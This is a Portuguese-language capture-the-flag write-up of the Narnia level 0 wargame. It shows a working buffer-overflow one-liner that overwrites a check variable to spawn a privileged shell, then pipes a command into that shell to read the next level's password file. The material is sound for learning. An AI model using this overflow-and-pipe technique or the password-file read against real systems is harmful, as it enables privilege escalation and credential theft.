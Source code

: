 Parecia que nada acontecia. Então usei o ltrace para confirmar minhas suspeitas:

```narnia0@melinda:/tmp/0112$ python -c 'print ' | ltrace ./teste
__libc_start_main(0x40052d, 1, 0x7fffffffe6a8, 0x400550 unfinished ...
system(/bin/sh no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

Então coloquei na minha cabeça que isso tinha a ver com o pipe ("|"). Vasculhei pelo google informações sobre como ele funcionava e essas porra toda. Aprendi um bocado.

Mesmo assim, ainda não tenho uma teoria final sobre a razão desse comportamento. Pelo que li, <del>suspeito que o pipe feche os dois processos assim que meu primeiro comando finalize de enviar sua entrada (e assim o processo filho, a shell, tbm se acabe)...</del> (descartei essa teoria). Tive muitas viagens (uma pena ter perdido meu arquivo cheio das notas que fiz enquanto resolvia esse chall :(). Dentre os pensamentos, acabei achando que a solução seria dar um jeito de passar, além da entrada para buf, outra entrada que acabaria virando um comando na shell. Tudo via um único pipe.

Como passar o resultado de dois comandos como entrada para outro?

Fico feliz que você tenha perguntado.

Outra vez me vi vasculhando o google em busca de informação. Aprendi mais um bocado de coisas, mesmo assim nenhuma resposta "pronta". O que me deu a ideia final foi a leitura sobre <a href="https://en.wikibooks.org/wiki/A_Quick_Introduction_to_Unix/Shells_and_subshells">subshells</a>.

O nome é sugestivo. Uma subshell é uma shell dentro de outra shell.

```brenno@budweiser:~$ /bin/sh
$ whoami
brenno
$ exit
brenno@budweiser:~$
```

Eu sei. Não parece ser a resposta para a pergunta: como enviar a saída de dois comandos para outro. Mas é sim.

É possível executar um comando dentro de uma subshell sem precisar chama-la explicitamente. É só colocar o comando, ou comandos, entre parenteses e deixar a mágica rolar.

Daí então veio a ideia: executar dois comandos em uma subshell e passar pelo pipe para narnia0 e saber se minha lógica estaria correta e os resultados dos comandos seriam interpretados como duas entradas (uma para buf e outra para a shell).

```narnia0@melinda:/narnia$ (python -c'print A*20 + \xef\xbe\xad\xde'; python -c 'print whoami') | ./narnia0
Correct val's value from 0x41414141 -0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
narnia1
```

PROFIT! Esse narnia1 da última linha veio do whoami que mandei o python imprimir logo depois do exploit. Obviamente foi recebido pela shell aberta com o privilégios que são necessários para a flag.

```narnia0@melinda:/narnia$ (python -c'print A*20 + \xef\xbe\xad\xde'; python -c 'print cat /etc/narnia_pass/narnia1') | ./narnia0
Correct val's value from 0x41414141 -0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
Y3JldQ==```

Esse chall foi divertido e me fez pensar bastante. Write-up só demorou a sair e não ficou nem um pouco com a qualidade que eu esperava porque perdi meu arquivo com todas as notas mentais que criei enquanto tentava resolver.

Que venha narnia1.

```